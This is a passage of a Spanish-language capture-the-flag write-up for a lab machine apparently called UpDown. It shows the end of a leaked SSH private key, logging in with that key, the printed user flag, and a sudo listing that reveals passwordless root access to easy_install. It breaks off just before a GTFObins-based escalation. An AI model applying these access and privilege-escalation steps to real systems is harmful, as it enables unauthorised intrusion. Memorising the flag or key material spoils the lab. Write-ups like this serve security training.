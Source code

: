 ```python
3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
-----END OPENSSH PRIVATE KEY-----
[...]
developer@updown:~$ 
```

Finalmente, guardamos la clave privada en un fichero, le damos **permisos 600** y accedemos por ***SSH***:

```bash
chmod 600 id_rsa
ssh developer@10.10.11.177 -i id_rsa

[...]
Last login: Tue Jan 17 13:05:32 2023 from 10.10.14.127
developer@updown:~$ 
```

### user.txt

Podemos encontrar la primera *flag* en el *homedir* de *developer*:

```bash
developer@updown:~$ cat user.txt 
1eefaf3e3a6a648a24ca30cabe550728
```

## Consiguiendo shell como root

### Reconocimiento del sistema

#### sudoers

Para listar los privilegios de **_sudo_** asignados al usuario *developer* utilizaremos el comando `sudo -l`:

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

Podemos ejecutar como ***root*** el binario */usr/local/bin/easy_install*.

*easy_install* es una herramienta para instalar paquetes de *Python* en sistemas *Linux*.

#### Explotación del binario easy_install

Al tratarse de un binario conocido, podemos buscar en [GTFObins](https://gtfobins.github.io/gtfobins/easy_install/) si presenta alguna vulnerabilidad que nos permita escalar privilegios. Teniendo permisos de *sudo*, los pasos a seguir son los siguientes:
